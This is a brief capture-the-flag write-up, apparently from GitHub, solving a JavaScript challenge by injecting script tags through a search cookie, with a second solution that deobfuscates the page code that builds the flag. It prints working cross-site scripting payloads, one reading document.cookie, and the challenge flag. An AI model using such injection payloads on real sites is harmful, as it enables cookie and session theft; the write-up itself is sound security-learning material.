 ## we have search functionality with cookie `try+to+execute+some+js+`
![Screenshot 2023-08-11 at 01-09-41 Javascript](https://github.com/kiro6/writeups-ctfs/assets/57776872/8eaa29e0-40ea-4dbf-a31c-a7bb7853bdba)

## i tried this payload , as we can see the ` </script>` which i entered is parsed as a part of the code
```js
<script>alert(1)</script>
```
![Screenshot_20230811_010557](https://github.com/kiro6/writeups-ctfs/assets/57776872/fe55a717-fc98-4e3b-ae6e-13f4117b6c60)


## so i used this 
```js
<script>alert(1)</script><script>alert(document.cookie)</script>
```
![Screenshot_20230811_010607](https://github.com/kiro6/writeups-ctfs/assets/57776872/1f5f32ec-7b42-45d9-8893-9dd2defecd2b)

## there is the flag
```
coolcookie112
```

## another solution there was obfuscated js code  , i deobfuscate it using [this site](http://deobfuscatejavascript.com/) , there was the part where the flag is constructed
```js

            var f = '';
            f += ([]["fill"] + "")[3];
            f += (true + []["fill"])[10];
            f += (true + []["fill"])[10];
            f += (false + "")[2];
            f += ([]["fill"] + "")[3];
            f += (true + []["fill"])[10];
            f += (true + []["fill"])[10];
            f += (+(20))["to" + String["name"]](21);
            f += ([false] + undefined)[10];
            f += (true + "")[3];
            f += "112";
            eraseCookie('flag');
            createCookie('flag', f, 1);
            legacyAlert(p)
      
```
![Screenshot_20230811_011416](https://github.com/kiro6/writeups-ctfs/assets/57776872/639e9910-023a-4517-8598-c740e88b3696
